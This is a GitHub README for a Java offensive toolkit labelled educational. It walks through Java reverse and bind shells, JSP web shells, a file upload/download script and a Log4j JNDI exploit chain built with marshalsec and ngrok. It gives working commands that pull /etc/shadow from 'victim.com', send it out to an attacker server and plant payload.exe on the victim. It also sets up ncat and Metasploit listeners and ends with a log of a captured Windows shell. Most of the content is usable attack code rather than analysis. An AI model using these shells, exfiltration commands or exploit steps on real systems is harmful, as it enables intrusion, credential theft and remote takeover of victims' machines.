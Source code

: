 # Java Reverse TCP

JAR, JSP, and Java files for communicating with a remote host.

Remote host will have a full control over the client and all the underlying system commands.

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Program will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Built with JDK v8 on Apache NetBeans IDE v17 (64-bit). All the files require Java SE v8 or greater to run.

JAR and Java files were tested with Java v8 update 282 on Windows 10 Enterprise OS (64-bit) and Kali Linux v2023.1 (64-bit).

JSP scripts were tested on Apache Tomcat Version v7.0.100 on XAMPP for Windows v7.4.3 (64-bit).

Made for educational purposes. I hope it will help!

## Table of Contents

* [JAR Shells](#jar-shells)
* [Log4j Shells](#log4j-shells)
* [JSP Shells](#jsp-shells)
	* [JSP Reverse Shell](#jsp-reverse-shell)
	* [JSP Web Shells](#jsp-web-shells)
* [JSP File Upload/Download Script](#jsp-file-uploaddownload-script)
	* [Case 1: Upload the Script to the Victim’s Server](#case-1-upload-the-script-to-the-victims-server)
	* [Case 2: Upload the Script to Your Server](#case-2-upload-the-script-to-your-server)
* [Set Up a Listener](#set-up-a-listener)
* [Runtime](#runtime)

## JAR Shells

Check the source code of JAR files:

* [/src/Reverse Shell/src/reverse/shell/ReverseShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Reverse%20Shell/src/reverse/shell/ReverseShell.java)
* [/src/Reverse Shell/src/reverse/shell/BindShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Bind%20Shell/src/bind/shell/BindShell.java)

---

Open your preferred console from [/jar/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/jar) and run the following commands:

```fundamental
java -jar Reverse_Shell.jar 192.168.8.185 9000

java -jar Bind_Shell.jar 9000
```

## Log4j Shells

This PoC was tested on Kali Linux v2021.4 (64-bit).

**Change the IP address and port number inside the source files as necessary.**

Open your preferred console from [/log4j/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/log4j) and run the following commands:

Compile the source file:

```fundamental
javac ReverseShell.java
```

Start a local web server from the same directory as the compiled class file (i.e. `ReverseShell.class`):

```fundamental
python3 -m http.server 9090

python3 -m http.server 9090 --directory somedirectory
```

Download and build LDAP server:

```bash
apt-update && apt-get install maven

git clone https://github.com/mbechler/marshalsec && cd marshalsec && mvn clean package -DskipTests && cd target
```

Start a local LDAP server and create a reference to the compiled class file on your local web server:

```fundamental
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:9090/#ReverseShell
```

Credits to the author for [marshalsec](https://github.com/mbechler/marshalsec)!

Give the local LDAP server a public domain with [ngrok](https://ngrok.com):

```fundamental
./ngrok tcp 1389
```

Build the JNDI string (obfuscate it however you like):

```fundamental
${jndi:ldap://x.tcp.ngrok.io:13337/ReverseShell}
```

## JSP Shells

### JSP Reverse Shell

**Change the IP address and port number inside the script as necessary.**

Copy [/jsp/jsp_reverse_shell.jsp](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/jsp_reverse_shell.jsp) to your projects's root directory or upload it to your target's web server.

Navigate to the file with your preferred web browser.

### JSP Web Shells

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_post.jsp) based on HTTP POST request.

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_get.jsp) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

## JSP File Upload/Download Script

Check the [simple JSP file upload/download script](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/files.jsp) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.

Upload a file to the victim's server web root directory from your PC:

```fundamental
curl -s -k -X POST https://victim.com/files.jsp -F file=@/root/payload.exe
```

Download a file from the victim's PC to your PC:

```fundamental
curl -s -k -X GET https://victim.com/files.jsp?file=/etc/shadow -o shadow
```

If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.

### Case 2: Upload the Script to Your Server

From your JSP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server web root directory:

```fundamental
curl -s -k -X POST https://your-server.com/files.jsp -F file=@/etc/shadow
```

Download a file from your PC to the victim's PC:

```fundamental
curl -s -k -X GET https://your-server.com/files.jsp?file=/root/payload.exe -o payload.exe

curl -s -k -X GET https://your-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Runtime

```fundamental
┌──(root💀kali)-[~/Desktop]
└─# ncat -nvlp 9000               
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 192.168.1.117.
Ncat: Connection from 192.168.1.117:49895.
Microsoft Windows [Version 10.0.18363.1556]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\W10\Desktop\Reverse Shell>whoami
desktop-4kniu10\w10

C:\Users\W10\Desktop\Reverse Shell>ver

Microsoft Windows [Version 10.0.18363.1556]

C:\Users\W10\Desktop\Reverse Shell>
```
